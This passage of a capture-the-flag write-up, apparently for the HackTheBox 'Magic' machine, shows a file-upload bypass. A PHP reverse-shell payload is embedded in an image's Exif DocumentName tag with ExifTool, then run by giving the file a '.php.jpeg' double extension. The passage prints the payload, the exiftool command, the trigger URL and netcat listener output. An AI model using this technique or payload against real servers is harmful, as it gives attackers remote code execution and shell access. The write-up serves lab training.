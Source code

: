 Now we can start thinking about what can we give to the server that would allow us to run commands such as initiating a reverse shell. You can try uploading random files but you will quickly realize that the server only accepts the following

> Sorry, only JPG, JPEG & PNG files are allowed.

You might think, what if I upload a php file with the “.jpg” file extension? That is also not allowed and you will get the following error

> What are you trying to do there?

Now the conversation becomes, how can I pass a legit image file that contains code that can be executed by the server. Since we know this is a php web-server, this code has to be php code.

---

#Foothold
Now that we have a goal in mind, it is time to get to work. Searching on the internet you can see there is already a tool that allows us to embed data into images; [ExifTool](https://exiftool.org/).

> ExifTool is a platform-independent Perl library plus a command-line application for reading, writing and editing meta information in a wide variety of files

The php code that we will be adding to the image is a follows

```
<?php echo 'Initiating Shell'; system(\"nohup bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'\");__halt_compiler();?>
```

This code will connect back to the ip address hardcode facilitating a reverse shell. With this in hand, we can overwrite one of the standard Exif tag of the image; **DocumentName**.

```
exiftool -DocumentName="<h1>Test<br><?php echo 'Initiating Shell'; system(\"nohup bash -c 'bash -i >& /dev/tcp/10.10.14.5/1337 0>&1'\");__halt_compiler();?></h1>" exploit-image.jpeg
```

This will create a copy of the original image (named exploit-image.jpeg_original) and edit the Exif tag of the image. This image will pass the upload validation process but when you navigate to the image, it will not execute. This is because when we request the page the server only recognize the file as an image. If we want it to be interpreted as a php file, we will need to add the .php extension to the file as follows “**exploit-image.php.jpeg**”.

This will pass the image validation and when we request the page, the server will interpret this as a valid php file first before it try to parse it as a image.(it contains php code — see with strings exploit-image.php.jpeg). When evaluated as a PHP file we get the shell initiated. To trigger the shell, navigate to the following endpoint.

> http://10.10.10.185/images/uploads/exploit-image.php.jpeg

Boom! we have shell.

```
kali@kali:~/HTB/Magic$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 33868
bash: cannot set terminal process group (1168): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

---